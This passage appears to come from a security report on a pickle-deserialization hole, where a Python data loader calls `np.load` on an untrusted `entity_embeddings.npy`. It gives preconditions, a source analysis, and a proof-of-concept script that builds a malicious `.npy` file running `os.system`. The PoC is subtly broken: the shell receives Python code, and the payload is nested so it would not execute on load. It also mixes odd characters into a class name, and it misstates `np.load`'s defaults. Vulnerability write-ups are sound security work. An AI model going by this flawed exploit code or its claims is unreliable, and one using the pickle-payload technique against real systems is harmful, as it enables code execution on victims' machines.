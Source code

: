 *   **Integrity Checks:** Implement integrity checks (e.g., cryptographic signatures or checksums) for the `entity_embeddings.npy` file to ensure that it has not been tampered with. This would require a mechanism to securely store and verify the integrity information.

#### Preconditions:
1.  The attacker must be able to replace the `entity_embeddings.npy` file in the dataset directory accessible to the application.
2.  The application must be executed by a user or system with sufficient privileges for the attacker's malicious code to cause significant harm.

#### Source Code Analysis:

1.  **File:** `/code/src/data_loader_new.py`
2.  **Function:** `ParseData.load_data()`
3.  **Vulnerable Line:**
    ```python
    entity_bert_emb = np.load(self.data_path + "/entity_embeddings.npy")
    ```
    This line directly uses `np.load` to load the `entity_embeddings.npy` file. `numpy.load` with default settings (or `allow_pickle=True`) is known to be unsafe when loading data from untrusted sources because it can deserialize and execute arbitrary Python code embedded in the `.npy` file.
4.  **No Validation:** There is no input validation on the `entity_bert_emb` variable after it is loaded from the file, nor are there any checks on the file itself before loading. The code proceeds to normalize the loaded embeddings using `normalize_fature()`, but this function does not perform any security-relevant validation.

#### Security Test Case:

**Step 1: Create a malicious `entity_embeddings.npy` file.**

```python
import numpy as np
import pickle
import os

# Malicious code to execute (e.g., create a file)
malicious_code = """
import os
os.system('touch /tmp/pwned')
print('PWNED!')
"""

# Create a malicious object that will execute code when unpickled
class Malicious载体(object):
    def __reduce__(self):
        return (os.system, (malicious_code,))

malicious_data = {
    '__class__': 'Malicious载体',
    '__reduce__': Malicious载体().__reduce__()
}

# Dummy embedding data (e.g., zeros) to make it look like a valid embedding file
dummy_embeddings = np.zeros((10, 768))

# Combine dummy data and malicious payload
payload = {'embeddings': dummy_embeddings, 'malicious': pickle.dumps(malicious_data)}

# Save the malicious payload as entity_embeddings.npy
np.save('malicious_entity_embeddings.npy', payload, allow_pickle=True)

print("Malicious entity_embeddings.npy file created.")
```
